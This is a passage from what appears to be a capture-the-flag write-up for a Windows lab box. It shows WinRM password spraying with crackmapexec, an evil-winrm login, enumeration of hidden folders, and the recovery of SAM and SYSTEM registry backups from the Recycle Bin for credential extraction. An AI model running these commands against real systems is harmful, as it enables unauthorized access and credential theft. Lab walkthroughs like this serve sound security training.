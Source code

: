 `crackmapexec winrm $target_ip -u Jareth -p /usr/share/wordlists/rockyou.txt | grep ‘(Pwn3d!)’`

```bash
[REDACTED] - SAME PASSWORD
```

`evil-winrm -u Jareth -p sarah -i $target_ip`

```bash
*Evil-WinRM* PS C:\Users\Jareth\Documents> whoami /all | Select-String -Pattern "jareth" -Context 2.0

  User Name              SID
  ====================== =============================================
*> year-of-the-owl\jareth S-1-5-21-1987495829-162890*2820-919763334-1001

*Evil-WinRM* PS C:\Users\Jareth\Documents> Get-ComputerInfo | Select-Object CsName,WindowsVersion,WindowsBuildLabEx

CsName WindowsVersion WindowsBuildLabEx
------ -------------- -----------------
       1809           17763.1.amd64fre.rs5_release.180914-1434

*Evil-WinRM* PS C:\Users\Jareth\Documents> cd C:\
*Evil-WinRM* PS C:\> gci -hidden .

    Directory: C:\

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--hs-        9/18/2020   2:14 AM                $Recycle.Bin
d--hsl        9/17/2020   7:27 PM                Documents and Settings
d--h--        9/18/2020   2:04 AM                ProgramData
d--hs-        9/17/2020   7:27 PM                Recovery
d--hs-        9/17/2020   7:26 PM                System Volume Information
-a-hs-         9/6/2024   8:43 PM     1207959552 pagefile.sys

*Evil-WinRM* PS C:\> gci -path 'C:\$Recycle.Bin' -h

    Directory: C:\$Recycle.Bin

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--hs-        9/18/2020   7:28 PM                S-1-5-21-1987495829-1628902820-919763334-1001
d--hs-       11/13/2020  10:41 PM                S-1-5-21-1987495829-1628902820-919763334-500

*Evil-WinRM* PS C:\> cd 'C:\$Recycle.Bin\S-1-5-21-1987495829-1628902820-919763334-1001'
*Evil-WinRM* PS C:\$Recycle.Bin\S-1-5-21-1987495829-1628902820-919763334-1001> dir

    Directory: C:\$Recycle.Bin\S-1-5-21-1987495829-1628902820-919763334-1001

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/18/2020   7:28 PM          49152 sam.bak
-a----        9/18/2020   7:28 PM       17457152 system.bak

*Evil-WinRM* PS C:\$Recycle.Bin\S-1-5-21-1987495829-1628902820-919763334-1001> move .\system.bak c:\users\jareth\documents\system.bak
*Evil-WinRM* PS C:\$Recycle.Bin\S-1-5-21-1987495829-1628902820-919763334-1001> move .\sam.bak c:\users\jareth\documents\sam.bak
*Evil-WinRM* PS C:\$Recycle.Bin\S-1-5-21-1987495829-1628902820-919763334-1001> cd c:\users\jareth\documents\
*Evil-WinRM* PS C:\users\jareth\documents> dir

    Directory: C:\users\jareth\documents
```